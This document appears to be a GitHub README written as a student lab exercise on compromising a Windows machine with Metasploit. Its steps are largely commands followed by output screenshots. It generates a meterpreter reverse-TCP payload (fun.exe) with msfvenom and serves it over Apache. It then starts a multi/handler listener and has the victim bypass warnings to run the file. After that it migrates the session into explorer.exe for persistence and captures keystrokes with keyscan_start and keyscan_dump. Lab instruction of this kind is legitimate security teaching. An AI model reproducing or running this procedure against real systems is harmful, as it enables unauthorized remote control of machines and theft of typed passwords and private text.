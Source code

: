# Compromising-windows-using-Metasploit
Compromising windows using Metasploit
# Metasploit
Compromising windows using Metasploit

# AIM:

To Compromise windows using Metasploit .

## DESIGN STEPS:

### Step 1:

Install kali linux either in partition or virtual box or in live mode

### Step 2:

Investigate on the various categories of tools as follows:

### Step 3:

Open terminal and try execute some kali linux commands

## EXECUTION STEPS AND ITS OUTPUT:
## PROGRAM:

Find the attackers ip address using ifconfig

## OUTPUT:
![e1](https://github.com/anto-richard/Compromising-windows-using-Metasploit/assets/93427534/0defb30c-c8be-4e0a-9617-85818a890de2)



Create a malicious executable file fun.exe using msenom command
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.2 -f exe > fun.exe

## OUTPUT:
![e2](https://github.com/anto-richard/Compromising-windows-using-Metasploit/assets/93427534/c25fc240-0dfb-4e0b-9772-ea06eda38818)



copy the fun.exe into the apache /var/www/html folder

## OUTPUT:
![e3](https://github.com/anto-richard/Compromising-windows-using-Metasploit/assets/93427534/5a76afe6-bb80-4638-ad25-b41edbc35050)



Start apache server
sudo systemctl apache2 start

## OUTPUT:
![e4](https://github.com/anto-richard/Compromising-windows-using-Metasploit/assets/93427534/6cdd95ed-55b3-4fcd-bac8-f2ce71240938)


Check the status of apache2

## OUTPUT:
![e5](https://github.com/anto-richard/Compromising-windows-using-Metasploit/assets/93427534/da7c732b-97ca-4b14-acb8-c0006b2bb812)



## Invoke msfconsole:

## OUTPUT:
![e6](https://github.com/anto-richard/Compromising-windows-using-Metasploit/assets/93427534/f866016b-8406-4244-b4be-52066ae46fa7)


Type help or a question mark "?" to see the list of all available commands you can use inside msfconsole.

## OUTPUT:
![e7](https://github.com/anto-richard/Compromising-windows-using-Metasploit/assets/93427534/b1e18bda-9978-467c-94e4-3fb29616a86d)



Starting a command and control Server
use multi/handler
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST 0.0.0.0
exploit

## OUTPUT:
![e8](https://github.com/anto-richard/Compromising-windows-using-Metasploit/assets/93427534/e48585f1-724d-432f-af30-239f765d6612)


On the target Windows machine, open a Web browser and open this URL, replacing the IP address with the IP address of your Kali machine:
http://192.168.1.2/fun.exe
The file "fun.exe" downloads.

## OUTPUT:
![e9](https://github.com/anto-richard/Compromising-windows-using-Metasploit/assets/93427534/5c9fb543-72ac-4085-a967-dd57723d4f03)



Bypass any warning boxes, double-click the file, and allow it to run.

## OUTPUT:
![e10](https://github.com/anto-richard/Compromising-windows-using-Metasploit/assets/93427534/fba09e8e-bee8-4139-a7a9-21418d203370)


On kali give the command exploit

## OUTPUT:
![e11](https://github.com/anto-richard/Compromising-windows-using-Metasploit/assets/93427534/32713c22-b460-4463-b756-c0146aeabb12)


To see a list of processes, at the meterpreter > prompt, execute this command:
ps  ⇒ can see the fun.exe process running with pid 1156

## OUTPUT:
![e12](https://github.com/anto-richard/Compromising-windows-using-Metasploit/assets/93427534/78afeb09-0570-4632-a2d0-6a1a470ff04a)


The Metasploit shell is running inside the "fun.exe" process. If the user closes that process, or logs off, the connection will be lost.
To become more persistent, we'll migrate to a process that will last longer.
Let's migrate to the winlogon process.
At the meterpreter > prompt, execute this command:

migrate -N explorer.exe
at meterpreter > prompt, execute this command:
netstat
A list of network connections appears, including one to a remote port of 4444, as highlighted in the image below.
Notice the "PID/Program name" value for this connection, which is redacted 

## OUTPUT:
![e13](https://github.com/anto-richard/Compromising-windows-using-Metasploit/assets/93427534/62bd7d28-c063-4da5-b3dc-a9d6712ae18b)


## Post Exploitation
The target is now owned. Following are meterpreter commands for key capturing in the target machine
keyscan_start	Begins capturing keys typed in the target. On the Windows target, open Notepad and type in some text, such as your name.

## OUTPUT:
![e14](https://github.com/anto-richard/Compromising-windows-using-Metasploit/assets/93427534/83c9a0ba-7cb8-4eb8-8681-1ba4a53db842)

![e15](https://github.com/anto-richard/Compromising-windows-using-Metasploit/assets/93427534/ed36931d-8a94-41e6-bafd-679acceaaf46)


keyscan_dump	Shows the keystrokes captured so far

## OUTPUT:
![e16](https://github.com/anto-richard/Compromising-windows-using-Metasploit/assets/93427534/16b0c0f0-896c-43b3-93f2-556261dae7e7)


## RESULT:
The Metasploit framework is  used to compromise windows and is examined successfully.

